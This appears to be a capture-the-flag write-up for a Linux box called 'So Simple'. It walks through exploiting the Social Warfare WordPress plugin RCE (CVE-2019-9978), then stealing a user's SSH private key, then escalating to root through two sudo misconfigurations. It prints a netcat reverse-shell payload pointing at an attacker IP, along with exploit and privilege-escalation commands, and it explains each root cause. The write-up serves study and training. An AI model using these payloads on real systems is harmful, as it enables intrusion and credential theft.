

# So Simple

**Box info:** Difficulty: Intermediate · OS: Linux (Ubuntu) · Focus: WordPress plugin RCE (Social Warfare, CVE-2019-9978), SSH key theft, chained sudo privilege escalation across three accounts.

A WordPress install running the long-abandoned **Social Warfare** plugin is vulnerable to an unauthenticated remote code execution bug. The resulting `www-data` shell leaks a private SSH key for one user, who has sudo rights to run a service as a second user, who in turn has sudo rights to a root-owned script path that doesn't exist yet — letting the attacker create it themselves.

---

## 1. Reconnaissance (nmap)

```bash
nmap -sC -sV -p- --min-rate=1000 -oA nmap/soSimple 192.168.158.78
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
```

## 2. Enumeration

```bash
ffuf -u "http://192.168.158.78/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
wordpress               [Status: 200]
```

`wpscan` against `/wordpress/` identifies the CMS version and, critically, an outdated plugin with a public remote code execution advisory:

```bash
wpscan --url http://192.168.158.78/wordpress/ --enumerate --api-token <token>
```

```text
WordPress version 5.4.2 identified
social-warfare
 | Version: 3.5.0 (100% confidence)
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     UUID: 7b412469-cc03-4899-b397-38580ced5618
 |     Fixed in: 3.5.3
```

**Social Warfare ≤ 3.5.2** (CVE-2019-9978) lets an unauthenticated attacker point the plugin's `swp_debug=load_options` / `get_user_options` AJAX endpoint at an attacker-hosted "options" file, which the plugin then executes as PHP — a classic remote-file-inclusion-to-RCE chain.



## 3. Foothold — Social Warfare unauthenticated RCE (CVE-2019-9978)

### How CVE-2019-9978 works

Social Warfare ships a debugging feature meant to let a site owner import previously-exported share-count settings from a URL. The vulnerable code path takes an attacker-supplied `swp_url` parameter (reachable via `?swp_debug=load_options&swp_url=<attacker-URL>` on the plugin's admin-ajax actions) and, with **no authentication check and no validation that the URL points at the site's own domain**, does two dangerous things with it:

1. It performs a server-side HTTP request (`wp_remote_get`/`file_get_contents`-style fetch) to whatever `swp_url` points at — classic Server-Side Request Forgery, since the request originates from the WordPress server, not the attacker's browser.
2. It then treats the fetched content as a trusted serialized PHP "options" payload and **unserializes and evaluates it** as part of restoring plugin settings, rather than treating it as inert data.

Chaining those two flaws means an attacker only needs to host a file containing a crafted PHP payload (wrapped so it survives the plugin's unserialize/eval path) and ask the vulnerable AJAX endpoint to fetch it. Because step 2 ultimately executes attacker-controlled content, this is an **unauthenticated remote code execution**, not just an SSRF — the plugin was never designed to let an anonymous visitor cause arbitrary PHP to run on the server, but the debug-import feature trusted its input completely, with no login requirement at all. This is why an abandoned plugin with a known CVE is treated as critical: no session, no credentials, no admin interaction are needed — a single unauthenticated HTTP request is the whole attack.

A local HTTP server hosts the malicious "options" payload, and the public exploit script delivers it to the target, which fetches and executes it:

```bash
python3 -m http.server 8000
```

```bash
python3 CVE-2019-9978.py -t http://192.168.158.78/wordpress/ --payload-uri http://192.168.45.231:8000/payload.txt
```

```text
[>] Sending Payload to System!
[*] Received Response From Server!
[<] Received:
root:x:0:0:root:/root:/bin/bash
...
max:x:1000:1000:roel:/home/max:/bin/bash
steven:x:1001:1001:Steven,,,:/home/steven:/bin/bash
```

Command execution confirmed, the same vulnerable endpoint is used to deliver a full reverse shell through the `payload.txt` the exploit fetches:

```text
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.231 8443 >/tmp/f')</pre>
```

```bash
nc -lvnp 8443
```

```text
connect to [192.168.45.231] from (UNKNOWN) [192.168.158.78] 45382
www-data@so-simple:/var/www/html/wordpress/wp-admin$
```

### User flag and SSH key theft

```bash
cd /home/max
cat local.txt
```

```text
<LOCAL_REDACTED>
```

`www-data` can still read into `max`'s home directory, including its `.ssh` folder:

```bash
cat /home/max/.ssh/id_rsa
```

!!! info "Why a readable private key is a direct shell as its owner"
    An SSH private key is the entire credential — there's no second factor and no server-side password check in key-based auth; whoever holds the key's bytes *is* authenticated as that key's owner, as far as SSH is concerned. `max`'s `id_rsa` should only ever be readable by `max` (mode `600`, owner `max`), but because `www-data` ends up with filesystem read access into `/home/max/.ssh/` (loose home-directory permissions, a misconfigured web root, or simply running as a user that can traverse there), the webshell can `cat` the key out directly. Once the raw key material is exfiltrated, it's copied locally, `chmod 600`'d, and handed to `ssh -i id_rsa max@target` — no password, no brute force, no exploit needed. This is also simply a better shell than the one RCE gave: a webshell/named-pipe reverse shell is not a TTY, breaks on job control, and dies if the HTTP worker process is recycled, while a real SSH session is stable and fully interactive, which is why the key is pulled out and used instead of continuing to pivot through the web shell.

The private key is pulled out and used to log in directly as `max` over SSH with a proper TTY, rather than fighting the webshell.

## 4. Privilege escalation — chaining sudo across three accounts

### max → steven

```bash
sudo -l
```

```text
User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
```

`service` can be told to run an arbitrary path as its first argument (there is no strict validation that it's a real init script), so a relative path to a shell is substituted:

```bash
sudo -u steven /usr/sbin/service ../../bin/sh
```

```text
$ whoami
steven
```

!!! info "How the `service` hop works"
    `sudo -l` shows that `max` can run `/usr/sbin/service` **as `steven`**, with no password. `service <name> <action>` is normally just a thin wrapper that looks up an init script under `/etc/init.d/<name>` and calls it with `<action>` (`start`, `stop`, `status`, …). The wrapper does essentially no validation that `<name>` is actually a legitimate service name — it builds a path by string-concatenating `/etc/init.d/` with whatever is supplied and executes it. By supplying a **path-traversal string** (`../../bin/sh`) instead of a service name, the concatenated path resolves to `/etc/init.d/../../bin/sh` → `/bin/sh`, so `service` ends up executing `/bin/sh` directly instead of an init script — and because the whole thing runs under `sudo -u steven`, that shell spawns with `steven`'s UID. The underlying lesson: any sudo rule that hands a user control over the *first argument* to a program which then builds a filesystem path or command from it is a potential privilege-escalation primitive, regardless of what the binary's intended purpose is.

### steven → root

```bash
sudo -l
```

```text
User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

The target script doesn't actually exist on disk yet, and `steven` has write access to the (empty) `/opt` directory — so the privilege escalation is simply to create the missing script, with whatever content is wanted, before sudo runs it as root:

```bash
mkdir -p /opt/tools
echo -e '#!/bin/bash\nbash' > /opt/tools/server-health.sh
chmod +x /opt/tools/server-health.sh
sudo /opt/tools/server-health.sh
```

!!! info "Why a sudo rule pointing at a missing script is still exploitable"
    `sudoers` grants permission to execute a **path**, not a specific, verified file — `visudo`/`sudoers` has no concept of "the script that currently lives there" versus "whatever ends up at that path later." When the administrator wrote `(root) NOPASSWD: /opt/tools/server-health.sh` they were presumably planning to create that script eventually, but until they do, the rule is a standing promise: *"whatever file sudo finds at this exact path when you run it, you may execute as root, no password needed."* Because `/opt` (and the `tools` subdirectory once created) is writable by `steven`, nothing stops `steven` from being the one who creates that file first, with arbitrary content, and then invoking `sudo /opt/tools/server-health.sh` to have root run exactly that content. This is the second half of the "sudo chain": the first hop (`max → steven`) was an argument-injection bug in a real binary; this hop is a pure trust-the-path bug — sudo's guarantee only covers *the path string in the rule*, never the integrity, existence, or ownership of whatever happens to be sitting at that path when the rule is used.

## 5. Root / proof.txt

```text
root@so-simple:/opt/tools# cd /root
root@so-simple:~# cat proof.txt
```

```text
<PROOF_REDACTED>
```

---

## Takeaway

A single outdated, long-unmaintained WordPress plugin (Social Warfare) was all it took for unauthenticated RCE — the plugin's own "restore settings from a URL" debug feature became an SSRF-to-eval chain with zero authentication required. From there the box was a three-hop sudo chain: a loosely-validated `service` wrapper handed over a second account via path-traversal argument injection, and a sudo rule pointing at a script that simply didn't exist yet handed over root because `steven` could write to the parent directory first. Both hops share the same lesson as the initial RCE: a feature or a configuration that *trusts its input/path without verifying it* is the recurring root cause of every step on this box.
